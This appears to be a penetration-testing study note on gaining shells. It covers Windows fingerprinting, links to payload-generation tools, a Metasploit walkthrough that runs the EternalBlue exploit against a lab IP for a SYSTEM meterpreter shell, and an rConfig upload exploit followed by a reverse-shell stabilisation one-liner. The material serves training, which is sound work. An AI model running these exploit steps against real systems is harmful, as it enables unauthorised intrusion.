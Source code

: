 * Fingerprinting Windows:

  * when pinging target, TTL in response would be either 32 or 128
  * ```nmap``` scan with ```-O``` option
  * banner grabbing using ```banner.nse``` script

* For Windows, we can consider common payload formats like DLLs, batch files, VBS scripts, MSI files and PowerShell scripts

* Payload generation:

  * [msfvenom, metasploit](https://github.com/rapid7/metasploit-framework)
  * [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
  * [Mythic C2 Framework](https://github.com/its-a-feature/Mythic)
  * [Nishang](https://github.com/samratashok/nishang)
  * [darkarmour](https://github.com/bats3c/darkarmour)

* Example:

  ```sh
  nmap -v -A 10.129.201.97
  # enumerate host

  msfconsole
  # check for EternalBlue exploit

  use auxiliary/scanner/smb/smb_ms17_010

  options

  set RHOSTS 10.129.201.97

  run
  # target seems vulnerable

  use exploit/windows/smb/ms17_010_psexec

  options

  # set required options

  run
  # this gives us meterpreter shell as SYSTEM
  ```

## NIX Shells

* Example:

  ```sh
  nmap -sC -sV 10.129.201.101

  # suppose we have a vulnerable web app
  # in this example, rconfig 3.9.6

  # we can search for exploits associated with this version
  
  # in this example, we can load the exploit "rconfig_vendors_auth_file_upload_rce.rb"
  # and run it

  # once we get a reverse shell, we can stabilize it
  python -c 'import pty; pty.spawn("/bin/sh")'
  ```
